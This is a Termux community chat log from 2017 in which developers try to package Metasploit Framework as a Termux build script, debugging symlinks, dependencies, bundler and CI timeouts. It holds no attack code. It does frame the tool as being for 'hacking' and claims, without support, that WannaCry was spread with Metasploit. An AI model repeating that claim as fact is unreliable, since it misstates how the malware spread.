2017-09-05 03:15:40	timwr	something like: for MSF in $(ls msf*); do ln -s /data/data/com.termux/files/metasploit-framework/$MSF /data/data/com.termux/files/bin/$MSF;done

2017-09-05 03:16:07	timwr	oops with $PREFIX

2017-09-05 03:17:00	gitter	(Auxilus) Do we have build.sh for metasploit-framework in kali repo?

2017-09-05 03:19:10	timwr	I think so but I wouldn't copy it

2017-09-05 03:20:26	gitter	(Auxilus) If we mv msfconsole to bin we gonna have to put libs and other files in their respective /usr/ dir, then change rb scripts to access them from $PREFIX

2017-09-05 03:20:55	gitter	(Auxilus) That seems a lot of work to do as i dont have much of experience in ruby

2017-09-05 03:21:37	timwr	surely not

2017-09-05 03:21:54	timwr	I think the msfconsole rb file takes care of that

2017-09-05 03:22:45	gitter	(Auxilus) No looks like it doesnt, i copied msfconsole to bin and it gives no such file or dir erroe..

2017-09-05 03:22:53	timwr	https://github.com/rapid7/metasploit-framework/blob/master/msfconsole#L45

2017-09-05 03:23:00	timwr	don't copy it, symlink it

2017-09-05 03:23:13	timwr	__FILE__ will return /data/data/com.termux/files/metasploit-framework/msfconsole.rb

2017-09-05 03:23:48	gitter	(Auxilus) Okay ill try ln

2017-09-05 03:24:30	gitter	(Auxilus) Whoooh

2017-09-05 03:24:51	gitter	(Auxilus) auxilus ~/metasploit-framework >

2017-09-05 03:24:51	gitter	(Auxilus) ln -s msfconsole $PREFIX/bin/

2017-09-05 03:24:51	gitter	(Auxilus) auxilus ~/metasploit-framework > ms<W> fish: Error while searching for command '/data/data/com.termux/files/usr/bin/msfconsole'

2017-09-05 03:24:51	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59ae5141bac826f0547f95e5]

2017-09-05 03:25:02	gitter	(Auxilus) Wth is this?

2017-09-05 03:26:11	timwr	fish

2017-09-05 03:26:11	timwr	wtf?

2017-09-05 03:26:30	timwr	fish shell?

2017-09-05 03:26:31	timwr	not bash?

2017-09-05 03:26:36	gitter	(Auxilus) Also got same error for bash

2017-09-05 03:26:41	gitter	(Auxilus) Ye i use fish..

2017-09-05 03:26:58	timwr	tyr bash

2017-09-05 03:27:07	gitter	(Auxilus) [12:56][u0_a164¦/data/data/com.termux/files/usr/bin]$ $PREFIX/bin/msfconsole

2017-09-05 03:27:08	gitter	(Auxilus) bash: /data/data/com.termux/files/usr/bin/msfconsole: Too many symbolic links encountered

2017-09-05 03:27:19	timwr	rm /data/data/com.termux/files/usr/bin/msfconsole ?

2017-09-05 03:27:21	timwr	then try again

2017-09-05 03:27:32	timwr	and try

2017-09-05 03:27:32	gitter	(Auxilus) Tried..

2017-09-05 03:27:43	timwr	hmm

2017-09-05 03:28:32	gitter	(Auxilus) Whats that error about?

2017-09-05 03:28:37	timwr	so tab completion fails?

2017-09-05 03:28:38	gitter	(Auxilus) Should i try zsh?

2017-09-05 03:28:40	timwr	try which msfconsole

2017-09-05 03:28:43	timwr	stick with bash

2017-09-05 03:29:31	gitter	(Auxilus) Not just tab completion

2017-09-05 03:30:31	gitter	(Auxilus) No o/p for which msfconsole

2017-09-05 03:31:15	timwr	strange

2017-09-05 03:31:55	timwr	try using full paths/

2017-09-05 03:32:23	gitter	(Auxilus) Can this help? https://gist.github.com/holms/7379090

2017-09-05 03:33:07	timwr	which bit?

2017-09-05 03:33:37	timwr	there isn't much to it, git clone, gem install bundler, bundle install

2017-09-05 03:36:28	gitter	(Auxilus) Voila

2017-09-05 03:36:35	gitter	(Auxilus) This time it worked

2017-09-05 03:37:18	gitter	(Auxilus) We will install metasploit-framework in $PREFIX/share

2017-09-05 03:37:37	gitter	(Auxilus) And symlink msf executables to $PREFIX/bin

2017-09-05 03:38:19	gitter	(Auxilus) timwr : have you tried the script on wiki? Cz im gonna add it to build.sh

2017-09-05 03:40:02	timwr	I'm afm

2017-09-05 03:40:04	timwr	(away from mobile)

2017-09-05 03:40:24	timwr	I'm actually trying the same thing with run-docker.sh

2017-09-05 03:40:33	timwr	but this laptop doesn't have much space

2017-09-05 03:40:51	timwr	I think it will take a while if builds everything

2017-09-05 03:41:06	gitter	(Auxilus) I am adding build.sh for metasploit-framework in disabled-packages and create new pr

2017-09-05 03:43:09	timwr	awesome

2017-09-05 03:44:27	gitter	(Auxilus) Well crap

2017-09-05 03:44:37	gitter	(Auxilus) I dont know parameters for build.sh

2017-09-05 03:47:09	timwr	https://github.com/timwr/termux-packages/commit/d16c299cf6322bf72bb2dc17112875cd3f5240c4

2017-09-05 03:47:12	timwr	tyr that

2017-09-05 03:47:52	timwr	I'm running it now, but it may take forever, it looks like it's building *all* the dependencies

2017-09-05 03:48:15	gitter	(Auxilus) Im planning to implement script in build.sh

2017-09-05 03:48:24	gitter	(Auxilus) Ill let you know when i create pr

2017-09-05 03:49:47	timwr	awesome thanks

2017-09-05 03:52:13	timwr	TERMUX_PKG_PLATFORM_INDEPENDENT should be "no"

2017-09-05 03:52:56	gitter	(Auxilus) Okay

2017-09-05 03:56:13	timwr	does it really need ncurses-dev?

2017-09-05 03:56:36	timwr	I think your apt-get list is too long

2017-09-05 03:57:03	gitter	(Auxilus) https://github.com/Auxilus/Auxilus.github.io/blob/master/metasploit.sh

2017-09-05 03:57:10	gitter	(Auxilus) Check it out

2017-09-05 03:57:20	gitter	(Auxilus) I added ln to the script

2017-09-05 03:58:16	timwr	nice

2017-09-05 03:58:34	gitter	(Auxilus) Im creating pr

2017-09-05 03:58:47	gitter	(Auxilus) But i cant test the build.sh myself

2017-09-05 03:59:04	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1356

2017-09-05 03:59:20	gitter	(Auxilus) See if built.sh is correct

2017-09-05 04:00:55	gitter	(Auxilus) Is it?

2017-09-05 04:01:32	timwr	I'm trying to avoid curling things into bash

2017-09-05 04:01:36	timwr	it's not very secure

2017-09-05 04:01:59	gitter	(Auxilus) So wget instead of curl?

2017-09-05 04:02:25	timwr	no, just put the contents of metasploit.sh in that script

2017-09-05 04:02:59	gitter	(Auxilus) That'll make build.sh itself too big

2017-09-05 04:03:27	timwr	I disagree

2017-09-05 04:03:34	timwr	you can make build.sh as big as you like

2017-09-05 04:04:16	gitter	(Auxilus) Okay, ill do it right now

2017-09-05 04:04:56	timwr	if we use the tar.gz instead of git do we require less dependencies?

2017-09-05 04:06:28	gitter	(Auxilus) No, it doesn't make diff i think

2017-09-05 04:07:15	timwr	ah it's the same, just without the git history

2017-09-05 04:09:04	timwr	still building dependencies...

2017-09-05 04:10:03	gitter	(Auxilus) Chk now https://github.com/termux/termux-packages/pull/1356/files#diff-e19e550f22440361b06ab7118db3c2c3

2017-09-05 04:11:45	timwr	awesome much better

2017-09-05 04:12:03	timwr	I think we should include the patches rather than downloading them though

2017-09-05 04:12:15	timwr	I'll test it when I can, still building...

2017-09-05 04:13:58	gitter	(Auxilus) Okay

2017-09-05 04:14:06	gitter	(Auxilus) What are you building??

2017-09-05 04:15:23	timwr	I'm running: ./scripts/run-docker.sh ./build-package.sh metasploit-framework

2017-09-05 04:18:18	gitter	(Auxilus) Can you try build.sh in pr?

2017-09-05 04:18:22	timwr	sure

2017-09-05 04:18:31	timwr	might be a while though...

2017-09-05 04:20:40	gitter	(Auxilus) Np, we waited long enough for apt install metasploit-framework

2017-09-05 04:21:16	timwr	it's building llvm... *sigh*

2017-09-05 04:21:25	timwr	strange it can't just apt install them like on termux itself

2017-09-05 04:21:48	timwr	there is probably some magic flag for it that I'm not using...

2017-09-05 04:22:01	gitter	(Auxilus) Wth

2017-09-05 04:22:07	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1356 failed

2017-09-05 04:22:12	gitter	(Auxilus) Why?

2017-09-05 04:23:46	live_the_dream	its in disabled

2017-09-05 04:23:56	live_the_dream	travis only works in packages

2017-09-05 04:30:20	gitter	(Auxilus) K

2017-09-05 04:32:14	gitter	(Auxilus) Should I put it in packages then?

2017-09-05 04:32:27	gitter	(Auxilus) Its not been tested yet

2017-09-05 04:33:03	timwr	^ yes

2017-09-05 04:35:52	gitter	(Auxilus) Hows yo build going

2017-09-05 04:40:11	timwr	76%

2017-09-05 04:42:16	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1357

2017-09-05 04:42:48	gitter	(Auxilus) From what i heard, building metasploit-framework from docker gives segfault

2017-09-05 05:00:19	gitter	(Auxilus) ? timwr: does your build work

2017-09-05 05:01:33	timwr	still building dude, don't hold your breath

2017-09-05 05:02:19	gitter	(Auxilus) Lol

2017-09-05 05:02:22	gitter	(Auxilus) Im not :)

2017-09-05 05:03:11	timwr	do we need apr and apr-util?

2017-09-05 05:03:50	gitter	(Auxilus) What are those?

2017-09-05 05:04:25	gitter	(Auxilus) https://api.travis-ci.org/jobs/271965756/log.txt?deansi=true

2017-09-05 05:05:12	gitter	(Auxilus) Failed!

2017-09-05 05:05:12	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/271965755?utm_source=github_status&utm_medium=notification

2017-09-05 05:05:37	gitter	(Auxilus) Whyyyy?

2017-09-05 05:07:40	gitter	(Auxilus) @vishalbiswas @fornwall I'd really appreciate if you guys can help with the issue..

2017-09-05 05:11:41	timwr	you need way more TERMUX_PKG_DEPENDS

2017-09-05 05:11:42	timwr	but you don't need apr and apr-util :)

2017-09-05 05:12:50	gitter	(Auxilus) So add all packages from script to `TERMUX_PKG_DEPENDS`?

2017-09-05 05:13:07	timwr	yes, but not apr

2017-09-05 05:13:19	gitter	(Auxilus) Okay..

2017-09-05 05:13:32	gitter	(Auxilus) That travis ci test ram for 20 min!

2017-09-05 05:13:37	gitter	(Auxilus) Alas, failed

2017-09-05 05:13:44	timwr	faster than my build though lol :)

2017-09-05 05:13:57	gitter	(Auxilus) 😂

2017-09-05 05:14:07	gitter	(Auxilus) Hows it going?

2017-09-05 05:14:32	timwr	building libprotobuf

2017-09-05 05:14:37	timwr	guessing thats grpc

2017-09-05 05:14:50	timwr	libgrpc-dev maybe

2017-09-05 05:14:50	gitter	(Auxilus) How long its gonna take?

2017-09-05 05:14:58	timwr	no clue

2017-09-05 05:14:59	gitter	(Auxilus) Can you show me screenshot?

2017-09-05 05:15:00	timwr	no percentage

2017-09-05 05:15:17	timwr	libtool: compile:  g++ -DHAVE_CONFIG_H -I. -I/home/builder/.termux-build/libprotobuf/src/src -I.. -pthread -DHAVE_PTHREAD=1 -DHAVE_ZLIB=1 -Wall -Wno-sign-compare -O2 -g -DNDEBUG -MT google/protobuf/util/delimited_message_util.lo -MD -MP -MF google/protobuf/util/.deps/delimited_message_util.Tpo -c /home/builder/.termux-build/libprotobuf/src/src/google/protobuf/util/delimited_message_util.cc  -fPIC -DPIC -o google/protobuf/util/.libs/delimited_message_util.o

2017-09-05 05:15:23	timwr	lots of that kind of thing

2017-09-05 05:16:03	gitter	(Auxilus) I just wanna see how docker looks line

2017-09-05 05:16:16	gitter	(Auxilus) Not the status code :p

2017-09-05 05:18:53	gitter	(Auxilus) termux-packages/pull/1357/files#diff-5c712d5ae08a8a183576161f28b88acd

2017-09-05 05:18:58	gitter	(Auxilus) See now...

2017-09-05 05:23:08	gitter	(Auxilus) we should have TERMUX_PKG_PLATFORM_INDEPENDENT=yes?

2017-09-05 05:24:43	timwr	no take that entire thing out

2017-09-05 05:24:43	gitter	(Auxilus) No we dont

2017-09-05 05:24:44	timwr	it's definitely not yes

2017-09-05 05:25:35	gitter	(Auxilus) Well travis is running for current build

2017-09-05 05:25:46	gitter	(Auxilus) Ill see if it turns out ok

2017-09-05 05:26:29	gitter	(Auxilus) @me

2017-09-05 05:31:11	timwr	you've put + everywhere

2017-09-05 05:31:57	gitter	(Auxilus)  Yeah im fixing em ri8 now

2017-09-05 05:32:44	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1357/files#diff-5c712d5ae08a8a183576161f28b88acd

2017-09-05 05:32:53	gitter	(Auxilus) See if this commit is okay

2017-09-05 05:34:23	gitter	(Auxilus) timwr

2017-09-05 05:35:26	timwr	looks better

2017-09-05 05:35:28	timwr	let's wait and see

2017-09-05 05:36:36	gitter	(Auxilus) Hey bro, try the pr script directly

2017-09-05 05:37:13	timwr	I don't want to interupt my build, besides the dependencies are the same

2017-09-05 05:37:26	timwr	I really hope the build is incremental though lol, not waiting this long next time

2017-09-05 05:38:14	gitter	(Auxilus) Don't interrupt your current build

2017-09-05 05:43:24	timwr	yours is looking good so far

2017-09-05 05:43:31	timwr	I wonder how long it will take with all the deps

2017-09-05 05:44:19	gitter	(Auxilus) You are tracking travis?

2017-09-05 05:44:35	timwr	yes

2017-09-05 05:45:02	gitter	(Auxilus) Me too...

2017-09-05 05:48:25	gitter	(Auxilus) Its on perl...

2017-09-05 05:48:34	gitter	(Auxilus) This is gonna take looong

2017-09-05 05:55:20	timwr	mine finished the deps!

2017-09-05 05:55:24	timwr	but it's elf cleaning within the git clone termux-elf-cleaner: Removing version section from './metasploit-framework/data/exploits/CVE-2014-0038/recvmmsg'

2017-09-05 05:55:30	timwr	termux-elf-cleaner: Removing version section from './metasploit-framework/data/exploits/CVE-2014-0038/recvmmsg'

2017-09-05 05:55:34	timwr	bad termux!

2017-09-05 05:56:19	gitter	(Auxilus) What happ?

2017-09-05 05:56:24	gitter	(Auxilus) Not a success?

2017-09-05 05:58:20	gitter	(Auxilus) How's mine going?

2017-09-05 06:03:57	timwr	slowly ironing out the bugs...

2017-09-05 06:04:47	timwr	I think my docker something ran out of space or something

2017-09-05 06:04:48	timwr	got stuck

2017-09-05 06:10:45	timwr	hmm Fetching: bundler-1.15.4.gem (100%)

2017-09-05 06:10:45	timwr	ERROR:  While executing gem ... (Gem::FilePermissionError) You don't have write permissions for the /var/lib/gems/2.3.0 directory.

2017-09-05 06:16:40	timwr	why does it try use that dir? LDFLAGS=-L/data/data/com.termux/files/usr/lib

2017-09-05 06:17:25	timwr	I don't think termux_step_make_install is the best place to gem install bundler

2017-09-05 06:32:46	gitter	(Auxilus) Then what should we do?

2017-09-05 06:33:54	timwr	let me try hack a fix in...

2017-09-05 06:34:29	gitter	(Auxilus) At pr?

2017-09-05 06:35:12	gitter	(Auxilus) As a matter of fact you can do bu. bundle install anywhere before running msfconsole

2017-09-05 06:36:45	timwr	gem install bundler -i $TERMUX....

2017-09-05 06:36:48	timwr	that seems to work

2017-09-05 06:37:02	gitter	(Auxilus) You committed?

2017-09-05 06:37:06	timwr	sorry I'm being anti-social coding lol

2017-09-05 06:37:09	timwr	let me show you what I've got so far

2017-09-05 06:37:15	timwr	even if its broke

2017-09-05 06:37:26	gitter	(Auxilus) Sure..

2017-09-05 06:38:57	gitter	(Auxilus) I think `termux_step_make_install` is wrong itself

2017-09-05 06:39:11	gitter	(Auxilus) Cz we are not using makefile anywhere..

2017-09-05 06:41:07	timwr	good point, where do suggest then?

2017-09-05 06:41:28	timwr	everything in post_massage ?

2017-09-05 06:41:36	timwr	https://github.com/termux/termux-packages/pull/1358/files

2017-09-05 06:41:54	gitter	(Auxilus) Not sure..

2017-09-05 06:43:49	timwr	sorry dude I have to make a move

2017-09-05 06:43:51	timwr	let's nail this tomorrow

2017-09-05 06:44:20	gitter	(Auxilus) Np

2017-09-05 06:46:19	timwr	it should work up to line 36, nokogiri

2017-09-05 06:47:57	timwr	as in it install bundler, but not nokigiri

2017-09-05 06:53:37	gitter	(Auxilus) I think putting commands in `termux_step_post_massage() {

2017-09-05 06:53:37	gitter	(Auxilus) 	return

2017-09-05 06:53:37	gitter	(Auxilus) }` should work

2017-09-05 06:55:29	gitter	(Auxilus) As it runs commands in it directly

2017-09-05 07:19:32	gitter	(suryapoo) Guys

2017-09-05 07:19:45	gitter	(suryapoo) How to change GOPATH in termux

2017-09-05 07:20:40	gitter	(Auxilus) export GOPATH=<path>

2017-09-05 07:21:21	gitter	(suryapoo) Coool

2017-09-05 07:22:07	gitter	(suryapoo) And what should be an ideal setup before starting a Go project.

2017-09-05 07:22:57	gitter	(Auxilus) Sry man, don't know much about that..

2017-09-05 07:23:47	gitter	(suryapoo) Cool

2017-09-05 08:05:34	gitter	(Auxilus) Error in travis-ci logs : The job exceeded the maximum time limit for jobs, and has been terminated.

2017-09-05 08:05:44	gitter	(Auxilus) How to disable time limit?

2017-09-05 08:06:04	gitter	(Auxilus) @vishalbiswas

2017-09-05 08:06:18	gitter	(Auxilus) @fornwall

2017-09-05 08:41:03	live_the_dream	@vishalbiswas new rust ?

2017-09-05 09:03:15	frumpylava	What are you people actually going to do with metasploit on Termux?

2017-09-05 09:04:04	gitter	(Auxilus) Hacking i guess

2017-09-05 09:04:21	gitter	(Auxilus) That is what drawing people towards termux now a days

2017-09-05 09:05:48	gitter	(Auxilus) frumpylava : not familiar with metasploit-framework?

2017-09-05 09:06:03	frumpylava	not particularly.

2017-09-05 09:06:45	gitter	(Auxilus) Well its sort of greatest hacking tool ever

2017-09-05 09:07:07	gitter	(Auxilus) The wannacry ransomdware was injected using metasploit-framework

2017-09-05 09:08:11	frumpylava	@Auxilus Is it going to be sort of like this? https://youtu.be/Cz1M5i5Y4Qc?t=1m5s

2017-09-05 09:09:21	gitter	(Auxilus) Sort of..

2017-09-05 09:09:37	gitter	(Auxilus) You can technically do that kind of stuff with metasploit-framework

2017-09-05 09:10:51	gitter	(Auxilus) Ive asked this question many times, but..

2017-09-05 09:11:05	gitter	(Auxilus) Can you try out the build script in PR?

2017-09-05 09:12:10	frumpylava	What do you mean try out? Running somebody elses PR?

2017-09-05 09:12:56	gitter	(Auxilus) I mean build.sh

2017-09-05 09:13:21	gitter	(Auxilus) Travis-ci fails

2017-09-05 09:13:40	gitter	(Auxilus) Because it takes more than hour to build all the dependencies

2017-09-05 09:13:46	frumpylava	@Auxilus Do you just mean building a package?

2017-09-05 09:13:54	gitter	(Auxilus) Yeah

2017-09-05 09:14:04	gitter	(Auxilus) Can you, is it possible

2017-09-05 09:14:05	gitter	(Auxilus) ?

2017-09-05 09:14:21	frumpylava	Well, yeah. of course.

2017-09-05 09:14:34	gitter	(Auxilus) Thanks

2017-09-05 09:14:46	gitter	(Auxilus) But I think it'll take hell lot of time!

2017-09-05 09:14:56	gitter	(Auxilus) 1hr for sure..

2017-09-05 09:15:03	gitter	(Auxilus) But worth a shot

2017-09-05 09:15:41	frumpylava	@Auxilus the good thing is that once you have built the dependencies once, you don't have to do it again.

2017-09-05 09:16:12	gitter	(Auxilus) Okay

2017-09-05 09:16:23	frumpylava	@Auxilus what operating system are you on?

2017-09-05 09:16:53	gitter	(Auxilus) Android 6.0

2017-09-05 09:17:21	gitter	(Auxilus) I dont have access to docker, so I cant test it myself..

2017-09-05 09:17:34	frumpylava	@Auxilus Oh, you mean on Termux... No you can't build a package on termux (yet) unfortunately. You do need access to a Linux machine.

2017-09-05 09:18:53	frumpylava	Or a VM, if you have Windows.

2017-09-05 09:20:03	gitter	(Grimler91) @Auxilus how did you come up with the dependecy list? There are a couple of duplicates and I'm guessing not all of the packages are actual dependencies

2017-09-05 09:22:38	gitter	(Auxilus) Yeah, @Grimler91 im gonna work on em and make it as short as possible

2017-09-05 09:24:10	frumpylava	@Auxilus Do you have access to a Linux machine?

2017-09-05 09:24:53	gitter	(Auxilus) No man, thats why I need someone else to test it

2017-09-05 09:28:21	gitter	(Auxilus) @Grimler91 can you commit in the PR with that fix?

2017-09-05 09:29:40	gitter	(Auxilus) libreadline-dev libssl-dev libpq5 libpq-dev libreadline5 libsqlite3-dev libpcap-dev git-core autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer libyaml-dev curl zlib1g-dev

2017-09-05 09:29:40	gitter	(Auxilus) These packages are necessary for metasploit-framework

2017-09-05 09:36:46	frumpylava	@Auxilus, Running your build.sh now.

2017-09-05 09:37:05	gitter	(Grimler91) Those packages looks like the build requirements, build requirements are in the file `scripts/setup-ubuntu.sh`. `TERMUX_PKG_DEPENDS` are packages required for running metasploit on the device.

2017-09-05 09:38:21	gitter	(Auxilus) @Grimler91 can you please commit fix on the PR? Cz I dont know much about those things..

2017-09-05 09:38:41	gitter	(Auxilus) frumpylava : thanks for your help

2017-09-05 09:39:54	gitter	(Auxilus) @Grimler91 I was able to reduce the list = { autoconf bison clang coreutils curl findutils libffi-dev libgmp-dev libpcap-dev postgresql-dev readline-dev libsqlite-dev openssl-dev libtool libxml2-dev libxslt-dev ncurses-dev pkg-config wget ruby-dev libgrpc-dev termux-tools ncurses-utils ncurses tar} but haven't tested yet

2017-09-05 09:42:48	gitter	(Grimler91) @Auxilus I'll add some review comments :+1:

2017-09-05 09:42:49	gitter	(Grimler91) And do some more investigation when I have more time

2017-09-05 09:43:46	gitter	(Auxilus) BTW can you try out `https://Auxilus.github.io/metasploit_test.sh `

2017-09-05 09:43:55	gitter	(Auxilus) Ive updated dep list there.

2017-09-05 09:53:44	gitter	(Auxilus) frumpylava : i cant override the style sheet

2017-09-05 09:54:03	frumpylava	@Auxilus, yeah I think it's only for admins :/

2017-09-05 09:54:22	frumpylava	@Auxilus btw: https://tmate.io/t/ro-jqGnv00vKRC7WJ8PsbcwAo0um Here is your process. You can monitor it yourself

2017-09-05 09:55:04	gitter	(Auxilus) Okay.

2017-09-05 09:56:30	gitter	(Auxilus) frumpylava : its building build.sh, which timwr tried, but failed

2017-09-05 09:56:56	gitter	(Auxilus) Can try my build.sh, the one which is in the PR?

2017-09-05 09:57:34	frumpylava	It's running this one https://raw.githubusercontent.com/Auxilus/termux-packages/e1a8d6f9ce99dc8267fe0bf979c0490ba90c9991/packages/metasploit-framework/build.sh

2017-09-05 09:58:39	gitter	(Auxilus) Ah got it..

2017-09-05 10:03:09	gitter	(Auxilus) frumpylava

2017-09-05 10:03:22	gitter	(Auxilus) I think you should stop the test,

2017-09-05 10:03:58	gitter	(Auxilus) @Grimler91 encountered some errors in script which im going to fix right now

2017-09-05 10:05:09	gitter	(Grimler91) Yeah, I ran it as well. See my comments on github

2017-09-05 10:05:44	gitter	(Auxilus) I just saw em

2017-09-05 10:06:01	frumpylava	I'm going to continue the test, so that at least all the dependencies are built.

2017-09-05 10:06:25	frumpylava	Secondary builds will go much faster

2017-09-05 10:06:47	gitter	(Auxilus) Okay then..

2017-09-05 10:07:23	frumpylava	Travis only takes so long because it builds the whole thing every time

2017-09-05 10:07:23	gitter	(Auxilus) @Grimler91 check the commit..

2017-09-05 10:08:07	gitter	(Auxilus) I haven't checked solution for bundle install yet

2017-09-05 10:11:54	gitter	(Auxilus) do i have to add `TERMUX_PKG_SHA256? `

2017-09-05 10:15:24	Grimler	No but it is recommended. Skip it first, build-package will then print the sha256 to the log and you can take it from there and add it

2017-09-05 10:17:36	gitter	(Auxilus) So i just have to add `TERMUX_PKG_SRCURL=https://github.com/rapid7/metasploit-framework/archive/${TERMUX_PKG_VERSION}.tar.gz` to script?

2017-09-05 10:17:55	gitter	(Auxilus) Do i have to add any termux_step function?

2017-09-05 10:18:21	gitter	(Auxilus) Cz i see there is function called `termux_download() `

2017-09-05 10:21:01	gitter	(Auxilus) @Grimler91 is this correct?

2017-09-05 10:21:02	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1357/commits/4d7df81129faac578c48c292c1e665d254353d0b

2017-09-05 10:21:28	Grimler	Yes. No, it will hopefully work out of the box. termux_step_extract_package will extract the metasploit tar to ~/.termux_build/metasploit-framework/src ($TERMUX_PKG_SRCDIR), so the installation stuff you want to do must be done in this folder instead of $TERMUX_PREFIX/share

2017-09-05 10:22:57	gitter	(Auxilus) So setting `$TERMUX_PKG_SRCDIR=$PREFIX/share/

2017-09-05 10:23:00	gitter	(Auxilus) Will help?

2017-09-05 10:23:14	Grimler	You will need to override the termux_step_configure and termux_step_make step I think since this package isn't using ./configure and make.

2017-09-05 10:23:19	Grimler	erm, I think it

2017-09-05 10:23:43	gitter	(Auxilus) So ill just add $TERMUX_PKG_SRCDIR=$PREFIX/share/ to script

2017-09-05 10:23:52	Grimler	it's better to do the installation in the normal srcdir and then move whatever is needed to $TERMUX_PREFIX/share

2017-09-05 10:23:54	gitter	(Auxilus) Yeah i used

2017-09-05 10:24:23	gitter	(Auxilus) Im too much confused atm..

2017-09-05 10:24:41	gitter	(Auxilus) Can you help me out and just modify the script?

2017-09-05 10:24:51	gitter	(Auxilus) Sry for trouble

2017-09-05 10:25:19	Grimler	Auxilus: Yeah sure. Sorry for confusing you. I can look at it later

2017-09-05 10:25:44	gitter	(Auxilus) Thanks..

2017-09-05 10:26:49	gitter	(Auxilus) TERMUX_PKG_SRCDIR is automatically chosen or we have to assign it?

2017-09-05 10:28:36	Grimler	it's done automatically, see the build-package script: https://github.com/termux/termux-packages/blob/7d1e71883dd07e411f1d3c28ce66f950b36ea967/build-package.sh#L295

2017-09-05 10:29:26	gitter	(Auxilus) Okay ill just replace `$PREFIX/share/` with $TERMUX_PKG_SRCDIR

2017-09-05 10:30:05	gitter	(Auxilus) Will it work then?

2017-09-05 10:30:47	Grimler	Probably not

2017-09-05 10:31:17	Grimler	for example due to the default configure step and default make step not working

2017-09-05 10:31:37	gitter	(Auxilus) Crap this is difficult

2017-09-05 10:32:30	timwr	hey all I'm back :)

2017-09-05 10:32:34	gitter	(Auxilus) Ill just keep it as it was before ( hard-coded)

2017-09-05 10:32:35	timwr	let me read the backscroll

2017-09-05 10:32:53	gitter	(Auxilus) You can change it when you get time..

2017-09-05 10:33:24	Grimler	Do that, I can suggest something later

2017-09-05 10:34:17	gitter	(Auxilus) :+1:

2017-09-05 10:35:01	gitter	(Auxilus) Btw is it okay to keep the code in `termux_step_post_massage` function?

2017-09-05 10:35:22	gitter	(Auxilus) Cz it just returns all the things execute inside

2017-09-05 10:35:38	Grimler	For now, yes

2017-09-05 10:38:51	gitter	(Auxilus) Would it be better to add msf dependencies inside the function rather than in TERMUX_PKG_DEPENDS ?

2017-09-05 10:40:18	gitter	(Auxilus) It should reduce build time right?

2017-09-05 10:42:02	timwr	I updated https://github.com/termux/termux-packages/pull/1358/files, will test tomorrow

2017-09-05 10:42:17	timwr	^ Auxilus, it's only an issue building the first time, not the second time

2017-09-05 10:42:27	timwr	eek and travis :/

2017-09-05 10:43:08	Grimler	TERMUX_PKG_DEPENDS is the way to go, otherwise apt on the device won't know which packages are run-time requirements

2017-09-05 10:43:31	timwr	Grimler: "We probably need to cross compile if bundle install should work. The produced binaries here will probably not work on device."

2017-09-05 10:43:38	timwr	what do you mean?

2017-09-05 10:43:43	Grimler	I

2017-09-05 10:43:59	timwr	does it not do a build for each arch separately?

2017-09-05 10:44:26	Grimler	I'm not to familiar with metasploit and ruby and so on, but the "bundle install" command compiles something, right?

2017-09-05 10:44:30	timwr	docker.io is timing out for me..

2017-09-05 10:44:33	timwr	yes

2017-09-05 10:44:55	timwr	it compiles the native extensions

2017-09-05 10:45:06	timwr	(for gems which have native extensions)

2017-09-05 10:45:30	gitter	(Auxilus) you sure bundle install wont work??

2017-09-05 10:46:09	timwr	./run-docker.sh is failing for me

2017-09-05 10:46:18	timwr	could be my internet connection

2017-09-05 10:46:31	timwr	https://registry-1.docker.io/v1/repositories/termux/package-builder/tags returns "requires authentication"?

2017-09-05 10:46:49	Grimler	I'm not sure, try it

2017-09-05 10:46:58	timwr	hurry up travis :)

2017-09-05 10:47:33	timwr	lets see if travis can pull

2017-09-05 10:47:35	timwr	oh it can

2017-09-05 10:47:37	timwr	just me then...

2017-09-05 10:47:45	gitter	(Auxilus) We can do `for GEM in $(cat *.gemspec); do gem install GEM `

2017-09-05 10:47:56	timwr	^ very clever Auxilus

2017-09-05 10:48:03	timwr	but where?

2017-09-05 10:48:20	gitter	(Auxilus) Instead of bundle install

2017-09-05 10:48:35	timwr	hopefully termux_step_create_debscripts will be called for each arch

2017-09-05 10:48:38	timwr	and it'll be fine

2017-09-05 10:48:50	Grimler	but generally, since we are compiling on a x86_64 linux system but targeting arm/aarch64/... we need to make sure that all compilation tools are targeting our platform. I'm guessing that the bundle command doesn't know that we are cross compiling

2017-09-05 10:49:43	gitter	(Auxilus) But we are installing metasploit-framework over arm and aarch devices

2017-09-05 10:49:47	gitter	(Auxilus) It works fine

2017-09-05 10:50:20	timwr	I think it will be fine :)

2017-09-05 10:50:25	Grimler	On device you mean? Yes, cause then you don't need to cross compile (you are on arm or aarch64, compiling for arm or aarch64)

2017-09-05 10:51:06	Grimler	I might be wrong as I don't know anything about ruby/metasploit.. :)

2017-09-05 10:51:25	gitter	(Auxilus) We can use `for GEM in $(cat *.gemspec); do gem install GEM` this if bundle fails

2017-09-05 10:52:14	gitter	(Auxilus) Maybe @vishalbiswas can tell us..

2017-09-05 11:30:45	gitter	(Auxilus) frumpylava : how much time passed since you began the test?

2017-09-05 11:30:54	gitter	(Auxilus) M. Monitoring btw, dont close

2017-09-05 11:32:29	gitter	(Auxilus) 74%] Building CXX object tools/clang/lib/ARCMigrate/CMakeFiles/clangARCMigrate.dir/TransAPIUses.cpp.o

2017-09-05 11:32:29	gitter	(Auxilus) [ 74%] Building CXX object tools/clang/lib/ARCMigrate/CMakeFiles/clangARCMigrate.dir/TransARCAssign.cpp.o

2017-09-05 11:32:29	gitter	(Auxilus) /home/builder/.termux-build/libllvm/src/tools/clang/lib/CodeGen/CGOpenMPRuntime.cpp:4009:31: warning: lambda capture 'Loc' is not used [-Wunused-lambda-capture]

2017-09-05 11:32:29	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59aec38c9acddb240705f54f]

2017-09-05 12:25:11	gitter	(Auxilus) frumpylava : you there?

2017-09-05 12:31:38	gitter	(Auxilus) Its been 3hrs i guess

2017-09-05 12:39:54	g093	what happened to the toc?

2017-09-05 12:40:18	g093	https://wiki.termux.com/wiki/Talk:Main_Page

2017-09-05 12:40:22	gitter	(Auxilus) Removed

2017-09-05 12:40:30	g093	why?

2017-09-05 12:40:38	gitter	(Auxilus) We got only 3 headers

